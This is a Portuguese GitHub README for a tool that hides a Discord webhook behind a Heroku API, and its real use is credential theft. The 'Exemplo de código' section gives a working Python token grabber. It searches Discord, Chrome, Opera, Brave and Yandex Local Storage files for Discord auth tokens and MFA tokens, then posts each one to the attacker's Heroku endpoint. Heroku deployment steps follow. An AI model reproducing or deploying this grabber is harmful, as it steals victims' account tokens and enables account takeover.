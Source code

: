 <p align="center">
<img src="https://img.shields.io/github/languages/top/Tzputao/Discord-Webhook-Protetor?style=flat-square" </a>
<img src="https://img.shields.io/github/last-commit/Tzputao/Discord-Webhook-Protetor?style=flat-square" </a>
<img src="https://img.shields.io/github/stars/Tzputao/Discord-Webhook-Protetor?color=444444&label=Stars&style=flat-square" </a>
<img src="https://img.shields.io/github/forks/Tzputao/Discord-Webhook-Protetor?color=444444&label=Forks&style=flat-square" </a>
</p>
</p>
<p align="center">
<a href="https://github.com/Tzputao/Discord-Webhook-Protetor#setting-up-the-api">Configure a API</a> ⋮
<a href="https://instagram.com/tzfofo">Discord</a>
</p>

#### Discord-Webhook-Protetor foi feito por
Amar ❌ código ✅

---

### 🔰・Recursos
```
> Fácil de configurar
> Webhook protegido para que não possa ser enviado por spam ou excluído, mesmo que seja depurado por http!
> Aceitando apenas solicitações de postagem
> Impossível excluir webhook (ainda possível spam, mas muito difícil)
```

### 🎈・Exemplo de código
Exemplo de um grabber para o qual você pode usar a API
```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-heroku-app-name.herokuapp.com" #o nome do seu aplicativo provavelmente será algo como https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #precisa ser a mesma chave da sua API
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    requests.post(api, headers={"Authorization": key}, json={"content": token})
```

### 📁・Configurando a API
1. Crie uma conta em [Heroku.com](https://heroku.com)
2. Instalar [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), e [git](https://git-scm.com/)
3. abra api.js e coloque seu webhook no topo (linha 5)
4. abra cmd no diretório e digite `npm i`
5. Agora siga estes passos com cuidado ⇣
```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "primeiro commit da API do protetor de Webhook"
...
$ heroku create
...
$ git push heroku main
...
$ heroku ps:scale web=1
$ heroku open
```

### 📜・ Próximos recursos
* Suporte para upload de arquivos (provavelmente não em um tempo, pois sou muito preguiçoso)
